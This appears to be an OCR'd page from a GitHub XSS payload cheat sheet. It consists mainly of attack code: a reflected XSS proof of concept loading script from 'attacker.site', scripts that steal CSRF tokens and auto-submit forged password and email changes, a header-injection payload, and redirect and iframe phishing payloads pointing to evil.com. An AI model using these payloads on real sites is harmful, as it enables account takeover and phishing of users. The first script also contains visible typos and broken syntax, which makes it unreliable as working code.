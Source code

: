     POC : `https://vulnerable.site/profile.php?msg=<script src=’https://attacker.site/attacker/script.js’></script>`

```jsx
var csrfProtectedPage ='<https://vulnerable.site/profile.php>'
var csrfProtectedForm ='form'
//get valid token for current request
var html = get(csrfProtectedPage);
  document.getElementbyId(csrfProtectedForm);
var token = form.token.value;

//Build with valid token
document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';

// Auto submit form
document.forms["myfor"].submit();
function get(url){
  var xmlHttp = new XMLHttpRequest();
  xamlHttp.open("GET", url.false);
  xmlHttp.send(null)
  return xmlHttp.responseText;
}
```

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
  var token = this.responseText.match(/name="csrf" value="(\\w+)"/)[1];
  var changeReq = new XMLHttpRequest();
  changeReq.open('post', '/my-account/change-email', true);
  changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

* XSS Via Header Injection

```jsx
hostheader: bing.com">script>alert(document.domain)</script><"
```

* XSS to Open Redirect

```jsx
## URL redirection through xss
document.location.href="<http://evil.com>"
```

* Phishing Via Iframe

```jsx
## phishing through xss - iframe injection
<iframe src="http://evil.com" height="100" width="100"></iframe>
```
